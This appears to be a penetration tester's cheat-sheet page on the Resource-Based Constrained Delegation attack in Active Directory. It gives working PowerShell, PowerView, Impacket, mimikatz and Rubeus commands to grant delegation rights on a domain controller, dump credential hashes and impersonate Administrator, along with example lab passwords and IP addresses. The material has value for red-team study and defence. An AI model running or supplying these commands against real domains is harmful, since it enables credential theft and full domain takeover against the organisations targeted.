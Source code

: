 ```yaml
---
title: RBCD
tags:
  - rbcd
  - activedirectory
  - deelgations
aliases:
  - resource-based constrained delegation
enableToc: "true"
---
```

## Resource-Based Constrained Delegation (RBCD)
This attack is possible if owned user/computer object has _GenericWrite_ or write privilege to user/computer object attributes. Since we have write privilege, we can write to _msds-allowedtoactonbehalfofotheridentity_ property. There are few requirements needed in order to perform this attack.

| Name                                              | Value         |
| ------------------------------------------------- | ------------- |
| Domain object with SPN set (computer/service acc) | `mycomputer$` |
| Principal's plain-text or hashes (rc4/aes-256)    | `Range2022!`  |
1. Import ADModule
2. Set _msds-allowedtoactonbehalfofotheridentity_ to owned computer/user objects.

```powershell
# AD-Module
Set-ADComputer -Identity dc01 -PrincipalsAllowedToDelegateToAccount (Get-ADComputer mycomputer)

# PowerView
Add-DomainObjectAcl -TargetIdentity dc01 -PrincipalIdentity mycomputer -Rights rbcd

# Impacket
rbcd.py kiwi.local/kiwiadm:Password1234 -action write -delegate-to 'kiwi-dc$' -delegate-from cami.nichole -dc-ip 192.168.86.189
```

3. Get mycomputer$ ntlm hash or aes keys

```powershell
mimikatz# sekurlsa::logonpasswords
```

4. Apply s4u delegation (TGT+TGS)

```powershell
# rubeus
Rubeus.exe s4u /user:mycomputer$ /rc4:<rc4/ntlm hash> /impersonateuser:administrator /msdsspn:http/dc01 /altservice:cifs /ptt

# impacket 
getST.py range.net/mssqlsvc:'Range2022!' -dc-ip 192.168.86.182 -spn cifs/dc01.range.net -impersonate Administrator
```

>[!References]
>- [Harmj0y's gist on abusing RBCD with PowerShell/PowerView/PowerMad](https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff)
>- [ired.team](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution)
